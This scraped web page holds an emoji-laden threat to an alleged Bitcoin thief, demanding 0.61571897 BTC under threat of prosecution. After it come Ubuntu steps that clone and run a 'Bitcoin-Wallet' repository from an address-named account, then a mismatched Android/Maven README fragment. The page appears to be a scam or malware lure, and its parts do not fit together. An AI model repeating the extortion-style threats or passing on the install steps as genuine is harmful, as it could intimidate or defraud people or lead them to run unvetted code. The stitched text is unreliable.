

<main id="content" class="single-class content">
  <!--container-->
    <div class="container-fluid">
      <!--row-->
        <div class="row">
                  <div class="col-lg-9 col-md-8">
                                <div class="mg-blog-post-box"> 
                    <div class="mg-header">
                        <div class="mg-blog-category"><a class="newsup-categories category-color-1" href="https://blockchair.com/bitcoin/address/1H4NihKHHvXiShVLXsue6tJuyWvkdzuQ8w" alt="View all posts in Bitcoin"> 
                                 Bitcoin address: 1H4NihKHHvXiShVLXsue6tJuyWvkdzuQ8w
                             </a></div>                        <h1 class="title single"> <a title="Permalink to: ">
                            </a>
                        </h1>
                                                <div class="media mg-info-author-block"> 
                                                        <a class="mg-author-pic" href="https://kluebers.com/author/1knowyouve3ngashbo46eemisvfcros9se/">  </a>
                                                        <div class="media-body">
                                                            <h3 class="media-heading"><span>💼 You’ll face criminal charges and global exposure</span><a href="https://kluebers.com/author/1knowyouve3ngashbo46eemisvfcros9se/"></a></h3>
                                                            <span class="mg-blog-date"><i class="fas fa-clock"></i> 
                                                                      </span>
                                                        </div>
                        </div>
                                            </div>
                                        <article class="page-content-single small single">
                        
<p>​</p>

<!-- wp:paragraph -->
<p>​</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>⚠️ Listen to us, thief who stole our Bitcoin! You have taken coins from us amounting to <strong>0.61571897 BTC</strong>, sending them to your Bitcoin wallet <code>1HEvqjo4FN6haRPCBRS8hv3fD8LUsss94z</code> and then transferring them to the address <code>1H4NihKHHvXiShVLXsue6tJuyWvkdzuQ8w</code></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>ℹ️ We know everything about you. We have hired several professional specialists, and finally they have decoded the source code of your poorly written virus — they studied every trace, and now we know on which PC and which processor you created and spread your malware. Your mistakes allowed us to uncover the full picture of the virus's movement and reflashing — all changes to the original files have been documented.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>📁 We have an entire folder with archives, a table of malicious activity, and a complete report about you, ready for submission to specialized agencies of major countries that deal with crimes of this kind.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>🚫 You are not skilled enough and do not know how to hide. You are under our control, and we have enough evidence to completely destroy your digital life, bring you to criminal liability, sanctions, and international exposure.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>💡 We advise you to immediately stop all criminal actions and return the total amount — <strong>0.61571897 BTC</strong> — to our corporate Bitcoin address:<br><code>1EViiyRenfQ2jtyGfKxnbUdukxkAAdTqyX</code></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>✅ <strong>If the coins are returned, we will forget about your existence.</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>⛔ Otherwise, all data about your actions will be handed over to the relevant authorities, and the consequences will be irreversible: investigations, criminal prosecution, confiscation of all your funds and property, international investigation, and total loss — including your reputation, job, and freedom.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>⚡You are a dangerous criminal, and we know a lot about you. Return our coins immediately — you will not get another chance! We strongly advise you to listen to us and do everything we ask correctly! After that, we will forget about you!</p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

Here are the installation commands for the Bitcoin-Wallet GitHub repository on Ubuntu 22.04, with each step briefly described for direct terminal use.

### Installation Commands with Brief Descriptions

1. Update package index and install git (if not already installed) 1KnowYoUvE3NGasHBo46eeMisVfCros9sE
   ```
   sudo apt update
   sudo apt install git
   ```
   - Updates the package list and installs the git version control system needed for working with repositories.[1][4][5]

2. Clone the repository
   ```
   git clone https://github.com/1KnowYoUvE3NGasHBo46eeMisVfCros9sE/Bitcoin-Wallet.git
   ```
   - Downloads the Bitcoin-Wallet source code to your current working directory.[1]

3. Change directory to the project folder
   ```
   cd Bitcoin-Wallet
   ```
   - Navigates to the extracted repository directory.[5][1]

4. (Recommended) Create and activate a Python virtual environment
   ```
   python3 -m venv .venv
   source .venv/bin/activate
   ```
   - Creates and enables a virtual environment for isolated Python package management.

5. Install dependencies from requirements.txt
   ```
   pip install -r requirements.txt
   ```
   - Installs all required Python packages listed by the project in requirements.txt.[5]

6. (Optional) Run the program or consult README instructions
   ```
   # Example: if there is a main.py file
   python3 main.py
   # Or check README.md for detailed instructions
   ```

### Note
- Using a virtual environment is recommended for security and dependency management. Without it, you may need to use `sudo` for some pip commands.
- Detailed usage instructions may be found in the project's README.md file.


This project contains several sub-projects:

 * __wallet__:
     The Android app itself. This is probably what you're searching for.
 * __market__:
     App description and promo material for the Google Play app store.
 * __integration-android__:
     A tiny library for integrating Bitcoin payments into your own Android app
     (e.g. donations, in-app purchases).
 * __sample-integration-android__:
     A minimal example app to demonstrate integration of Bitcoin payments into
     your Android app.

You can build all sub-projects at once using Maven:

`mvn clean install`
